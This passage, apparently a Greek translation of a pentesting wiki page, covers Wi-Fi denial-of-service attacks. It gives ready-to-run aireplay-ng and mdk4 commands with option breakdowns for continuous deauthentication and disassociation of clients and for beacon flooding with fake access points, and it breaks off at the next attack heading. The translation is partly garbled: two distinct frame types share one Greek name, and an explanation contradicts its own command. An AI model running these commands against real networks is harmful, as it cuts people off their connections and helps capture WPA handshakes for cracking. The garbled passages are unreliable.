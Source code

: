 ## DOS

### Πακέτα Αποσύνδεσης

**Περιγραφή από** [**εδώ**:](https://null-byte.wonderhowto.com/how-to/use-mdk3-for-advanced-wi-fi-jamming-0185832/)**.**

Οι επιθέσεις **Αποσύνδεσης**, μια διαδεδομένη μέθοδος στο Wi-Fi hacking, περιλαμβάνουν τη δημιουργία "διαχειριστικών" πλαισίων για να **αποσυνδέσουν βίαια τις συσκευές από ένα δίκτυο**. Αυτά τα μη κρυπτογραφημένα πακέτα εξαπατούν τους πελάτες να πιστεύουν ότι προέρχονται από το νόμιμο δίκτυο, επιτρέποντας στους επιτιθέμενους να συλλέγουν WPA handshakes για σκοπούς cracking ή να διαταράσσουν μόνιμα τις συνδέσεις δικτύου. Αυτή η τακτική, ανησυχητική στην απλότητά της, χρησιμοποιείται ευρέως και έχει σημαντικές επιπτώσεις για την ασφάλεια του δικτύου.

**Αποσύνδεση χρησιμοποιώντας Aireplay-ng**
```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
* \-0 σημαίνει αποσύνδεση
* 1 είναι ο αριθμός των αποσυνδέσεων που θα σταλούν (μπορείτε να στείλετε πολλές αν το επιθυμείτε); 0 σημαίνει ότι θα στέλνονται συνεχώς
* \-a 00:14:6C:7E:40:80 είναι η διεύθυνση MAC του σημείου πρόσβασης
* \-c 00:0F:B5:34:30:30 είναι η διεύθυνση MAC του πελάτη που θα αποσυνδεθεί; αν αυτό παραλειφθεί, τότε αποσύνδεση εκπομπής θα σταλεί (δεν λειτουργεί πάντα)
* ath0 είναι το όνομα της διεπαφής

### Πακέτα Αποσύνδεσης

**Τα πακέτα αποσύνδεσης**, παρόμοια με τα πακέτα αποσύνδεσης, είναι ένας τύπος διαχειριστικού πλαισίου που χρησιμοποιείται σε δίκτυα Wi-Fi. Αυτά τα πακέτα εξυπηρετούν για να διακόψουν τη σύνδεση μεταξύ μιας συσκευής (όπως ένα φορητό υπολογιστή ή smartphone) και ενός σημείου πρόσβασης (AP). Η κύρια διάκριση μεταξύ αποσύνδεσης και αποσύνδεσης έγκειται στα σενάρια χρήσης τους. Ενώ ένα AP εκπέμπει **πακέτα αποσύνδεσης για να αφαιρέσει ρητά κακόβουλες συσκευές από το δίκτυο, τα πακέτα αποσύνδεσης συνήθως αποστέλλονται όταν το AP βρίσκεται σε διαδικασία απενεργοποίησης**, επανεκκίνησης ή μετακίνησης, απαιτώντας έτσι τη διακοπή της σύνδεσης όλων των συνδεδεμένων κόμβων.

**Αυτή η επίθεση μπορεί να εκτελεστεί με το mdk4(mode "d"):**
```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```
### **Περισσότερες επιθέσεις DOS με το mdk4**

**Στο** [**εδώ**](https://en.kali.tools/?p=864)**.**

**ΜΟΝΤΕΛΟ ΕΠΙΘΕΣΗΣ b: Πλημμύρα Beacon**

Στέλνει πλαίσια beacon για να δείξει ψεύτικα APs στους πελάτες. Αυτό μπορεί μερικές φορές να προκαλέσει κρασάρισμα σε σαρωτές δικτύου και ακόμη και σε οδηγούς!
```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
**ΕΠΙΘΕΤΙΚΟΣ ΤΡΟΠΟΣ a: Άρνηση Υπηρεσίας Αυθεντικοποίησης**
